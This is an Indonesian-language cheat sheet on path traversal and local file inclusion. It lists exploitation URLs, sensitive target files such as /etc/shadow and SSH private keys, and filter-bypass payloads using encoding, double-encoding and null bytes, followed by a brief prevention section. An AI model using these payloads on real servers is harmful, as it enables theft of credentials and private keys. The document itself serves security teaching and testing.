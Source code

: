 # Path Traversal
#lfi #pathtraversal 


## Definisi
Attacker dapat membaca file yang berada pada server aplikasi dengan berpindah lokasi folder. Dapat digunakan untuk membaca informasi sensitif pada server, contoh /etc/passwd.

## Vulnerable Code
```html
<img src="/loadImage?filename=mountain.png">
```
Aplikasi tersebut membaca file dari /var/www/images/mountain.png.

## Eksploitasi
Mengambil informasi sensitif pada `/etc/passwd` atau `windows\win.ini`. 
```http
# Linux
https://website.com/loadImage?filename=../../../../etc/passwd

# Windows
https://website.com/loadImage?filename=..\..\..\..\windows\win.ini
https://website.com/loadImage?filename=..\\..\\..\\..\\windows\\win.ini
```
Informasi sensitif:
```sh
# Linux, testing, non-sensitive
/etc/issue
/etc/motd

# Linux
/etc/passwd
/etc/shadow
/etc/environment
/home/$USER/.ssh/id_rsa
/home/$USER/.bash_history

# Windows, testing, non-sensitive
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt

# Windows
c:\windows\system.ini
c:\windows\win.ini
```
## Payload
```sh
# basic
/etc/passwd
../../../etc/passwd

# bypass filter: encoding
%2e%2e%2fetc%2fpasswd

# double-encoding
%252e%252e%252fetc%252fpasswd

# non-standard encodings
%252e%252e%252f
..%ef%bc%8f

# filter: karakter .. atau / berurutan
....//....//
....\/.....\/
..../\..../\
....\\....\\

# filter: startswith /var/www/images
/var/www/images/../../../etc/passwd

# filter endwith *.jpg
../../../etc/passwd%00.jpg
```

Encoding
```
# ASCII
Dot - %2e
Forward slash - %2f
Backslash - %5c

# Double encoding
Dot - %252e
Forward slash - %252f
Backslash - %255c

# Overlong UTF-8
Dot - %c0%2e, %e0%40%ae, %c0ae, dll
Forward slash - %c0%af, %e0%80%af, %c0%2f, dll
Back slash - %c0%5c, %c0%80%5c, dll

# 16-bit Unicode
Dot - %u002e
Forward slash - %u2215
Backslash - %u2216
```

## Prevention
1. Tidak memperbolehkan user-input masuk ke filesystem API.
2. Apabila poin 1 tidak bisa dilakukan, pastikan terdapat validasi data sebelum diproses. Idealnya menggunakan whitelist. Lalu canocalized path harus berawal dari directori yang terekspektasi.

```php
File file = new File(BASE_DIRECTORY, userInput);
if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
}
```

## Referensi
Definisi  
- https://portswigger.net/web-security/file-path-traversal  

Payload
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal  
- https://github.com/soffensive/windowsblindread/blob/master/windows-files.txt
- https://soffensive.github.io/posts/web-app-sec/2018-06-19-exploiting-blind-file-reads-path-traversal-vulnerabilities-on-microsoft-windows-operating-systems/
